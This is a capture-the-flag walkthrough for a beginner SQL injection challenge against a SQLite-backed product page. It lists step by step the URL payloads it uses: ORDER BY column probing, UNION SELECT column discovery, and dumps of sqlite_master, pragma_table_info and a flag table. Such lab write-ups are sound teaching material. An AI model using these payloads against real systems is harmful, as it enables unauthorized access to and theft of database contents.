

- > NOTE: because of WSGI2ASGI + HYPERCORN we will not see the WSGI debug errors, so to compensate and keep the challenge easier when the query errors out I simply just return the query so they don't get the trying the classic `' OR '1'='1` and realize the query is for an integer and thus they don't even need to break out of query to keep the challenge easier for the beginners.

1) when viewing products we see the `product_id` parameter with a number being passed in 
2) try classic single quote `'` we get an error
3) try `' OR '1'='1`, we get an error that tells us this column value being queried has to be a number

4) so then we try `AND 1=1` and `AND 1=2` and now we see the differences
5) because errors are returned this is an easy classic SQL Injection.
6) using order by trick:
    - `http://alihacker.com:8000/product?product_id=1 ORDER BY 1-- -`
    - `http://alihacker.com:8000/product?product_id=1 ORDER BY 2-- -`
    - `http://alihacker.com:8000/product?product_id=1 ORDER BY 3-- -`
    - `http://alihacker.com:8000/product?product_id=1 ORDER BY 4-- -`
    - `http://alihacker.com:8000/product?product_id=1 ORDER BY 5-- -`
    -  fails here,  and tells us it has to be from `1-4`

7) now we use `Union Select` so we can over-write the original intended columns to be returned with our own.
    - this way we don't have to blind (time, boolean) based SQL injections.
    
    - `http://alihacker.com:8000/product?product_id=1 UNION SELECT 1, 2, 3, 4-- -`

8) now we need to figure out which column is an injectable
    - we'll know because the value will be over-written with our own string
    - this happens because some of the data-types won't match with our values (string being returned instead of an integer)
    - `http://alihacker.com:8000/product?product_id=1 UNION SELECT "HELLO", 2, 3, 4-- -`
    - `http://alihacker.com:8000/product?product_id=1 UNION SELECT 1, "HELLO", 3, 4-- -`
    -  column 2 is injectable we see `HELLO` returned to us.

9) now we need to see what database we're operating under:
    - we know this because the error messages from step `2` tells us it's a `sqlite3.OperationalError`, so we're attacking a `SQLITE` database.

10) now we need to start dumping table names
    - `http://alihacker.com:8000/product?product_id=1 UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table'-- -`
    -  WOAH, why is this not working but the below one does?

    - `http://alihacker.com:8000/product?product_id=1 UNION SELECT 1, 2, name, 4 FROM sqlite_master WHERE type='table'-- -`
    
    - now we learn another crucial part of reflected (error-based) SQL Injections, when odd behavior like this occurs we should force the DB to return NO products and over-write them with our own values via `Union Select` in order to stabilize our injections.

    - `http://alihacker.com:8000/product?product_id=69 UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table'-- -`
    - we see the `flag` entry, this is clearly the table name we need to target now.

11) now we need to dump the column names
    - `http://alihacker.com:8000/product?product_id=69 UNION SELECT 1, GROUP_CONCAT(name, ' AND '), 3, 4 FROM pragma_table_info('flag')-- -`
    - we see the `id AND flag`

12) dump columns
    - Let's just dump the obvious `flag` column, the `id` column is probably just an integer.
    - `http://alihacker.com:8000/product?product_id=69 UNION SELECT 1, flag, 3, 4 FROM flag-- -`
